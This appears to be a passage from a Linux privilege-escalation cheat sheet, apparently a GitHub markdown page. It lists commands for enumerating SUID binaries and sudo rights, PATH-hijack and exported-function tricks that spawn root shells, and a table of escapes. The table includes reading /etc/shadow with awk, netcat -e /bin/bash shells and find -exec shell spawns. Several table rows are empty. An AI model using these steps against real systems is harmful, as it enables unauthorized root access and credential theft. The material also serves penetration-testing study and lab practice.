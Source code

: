 We can also use pspy on linux to monitor the processes that are starting up and running:  
https://github.com/DominicBreuker/pspy

Check the services that are listening:
```bash
ss -lnpt
```


## What can we EXECUTE?

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?  
`find / -type f -user root -perm /u+s -ls 2>/dev/null`  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

Do any of the SUID binaries run commands that are vulnerable to file path manipulation?  
`strings /usr/local/bin/binaryelf`  
`mail`  
`echo "/bin/sh" > /tmp/mail` 
`cd /tmp`  
`export PATH=.`  
`/usr/local/bin/binaryelf`  

Do any of the SUID binaries run commands that are vulnerable to Bash Function Manipulation?
`strings /usr/bin/binaryelf`  
`mail`
`function /usr/bin/mail() { /bin/sh; }`  
`export -f /usr/bin/mail`  
`/usr/bin/binaryelf`  

Can I write files into a folder containing a SUID bit file?  
Might be possible to take advantage of a '.' in the PATH or an The IFS (or Internal Field Separator) Exploit.  

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables               | Priv Esc Command (will need to prefix with sudo if you are using sudo for priv esc. |
|---------------------------------------|-------------------------------------------------------------------------------------|
| (ALL : ALL ) ALL                      | You can run any command as root.<br>sudo su - <br>sudo /bin/bash                                 |
| nmap<br>(older versions 2.02 to 5.21) | nmap --interactive<br>!sh                                                           |
| netcat<br>nc<br>nc.traditional        | nc -nlvp 4444 &<br> nc -e /bin/bash 127.0.0.1 4444                                  |
| ncat                                  |                                                                                     |
| awk <br>gawk                          | awk '{ print }' /etc/shadow <br> awk 'BEGIN {system("id")}'                         |
| python                                | python -c 'import pty;pty.spawn("/bin/bash")'                                       |
| php                                   |      |
| find                                  | find /home -exec nc -lvp 4444 -e /bin/bash \\;<br> find /home -exec /bin/bash \\;  |
| xxd                                   |                                                                                     |
| vi                                    |                                                                                     |
| more                                  |                                                                                     |
| less                                  |                                                                                     |